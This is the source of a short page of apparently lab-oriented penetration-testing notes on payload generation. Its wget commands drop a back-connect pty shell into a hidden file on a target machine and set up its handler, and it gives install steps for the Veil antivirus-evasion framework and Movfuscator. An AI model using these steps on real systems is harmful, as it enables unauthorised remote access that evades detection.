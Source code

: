 ```yaml
---
layout: default
title: Generating the best payloads
---
```


Python
======
A very easy way to established our connection is to drop this pty shell to the targeted box:
{% highlight bash%}
wget https://raw.githubusercontent.com/Mushi-mushi/python-pty-shells/master/sctp_pty_backconnect.py -o /dev/shm/.shell.py
{% endhighlight %}
configure the shell with the correct IP and port then get the shell handler
{% highlight bash%}
wget https://raw.githubusercontent.com/Mushi-mushi/python-pty-shells/master/sctp_pty_shell_handler.py -o /root/HTB/handler.py
python handler.py -b YourIP:Youropenedport
{% endhighlight %}
<sup>Shell scripts from [infodox][link11]</sup>

Unfortunately, and as very many Metasploit payloads generated through MSFvenom, those are easily picked up by anti-virus nowadays.

Veil
=============
First off, we need to install the Veil framework which is easily done on Kali with:
{% highlight bash%}
apt -y install veil
/usr/share/veil/config/setup.sh --force --silent
{% endhighlight %}
Manual install:
{% highlight bash%}
sudo apt-get -y install git
git clone https://github.com/Veil-Framework/Veil.git
cd Veil/
./config/setup.sh --force --silent
{% endhighlight %}

Veil is pretty easy to use:
{% highlight bash%}

===============================================================================
                             Veil | [Version]: 3.1.12
===============================================================================
      [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================

Main Menu

        2 tools loaded

Available Tools:

        1)      Evasion
        2)      Ordnance

Available Commands:

        exit                    Completely exit Veil
        info                    Information on a specific tool
        list                    List available tools
        options                 Show Veil configuration
        update                  Update Veil
        use                     Use a specific tool

Veil>: 

{% endhighlight %}

Movfuscator
=============
Installing Movfuscator
{% highlight bash%}
git clone https://github.com/xoreaxeaxeax/movfuscator
cd movfuscator
./build.sh
sudo ./install.sh
{% endhighlight %}
